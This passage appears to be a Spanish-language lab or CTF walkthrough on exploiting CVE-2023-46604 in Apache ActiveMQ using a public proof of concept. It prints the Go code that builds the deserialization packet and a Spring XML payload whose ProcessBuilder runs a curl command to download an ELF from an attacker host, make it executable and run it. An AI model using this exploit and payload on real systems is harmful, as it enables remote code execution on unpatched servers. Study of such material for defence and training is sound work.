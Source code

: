 Para simplificar el proceso usaremos una *PoC* existente en este [repositorio de github](https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ/tree/main)

## Explotando el CVE-2023-46604

Clonaremos el repositorio con la *PoC*.

```bash
git clone https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ.git
```

Una vez clonado el repositorio, podemos analizar un poco el código para ver cómo se está explotando la vulnerabilidad.

Porción de `main.go`:

```go
className := "org.springframework.context.support.ClassPathXmlApplicationContext"
message := url

header := "1f00000000000000000001"
body := header + "01" + int2Hex(len(className), 4) + string2Hex(className) + "01" + int2Hex(len(message), 4) + string2Hex(message)
payload := int2Hex(len(body)/2, 8) + body
data, _ := hex.DecodeString(payload)
```

El archivo `main.go` es el encargado de enviar el *payload*. Como vemos, el paquete tiene un formato específico donde
destaca la variable `className`, que define la clase que vamos a deserializar. Y la variable `url`, que será el parámetro
que reciba la clase `ClassPathXmlApplicationContext` para especificarle dónde está ubicado el archivo XML que usaremos
como configuración.

Tenemos dos archivos de configuración XML, pero nos centraremos en el archivo `poc-linux.xml` ya que es el
sistema operativo de nuestra víctima.

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="
 http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
        <list>
            <value>sh</value>
            <value>-c</value>
            <!-- The command below downloads the file and saves it as test.elf -->
            <value>curl -s -o test.elf http://0.0.0.0:8001/test.elf; chmod +x ./test.elf; ./test.elf</value>
        </list>
        </constructor-arg>
    </bean>
</beans>
```
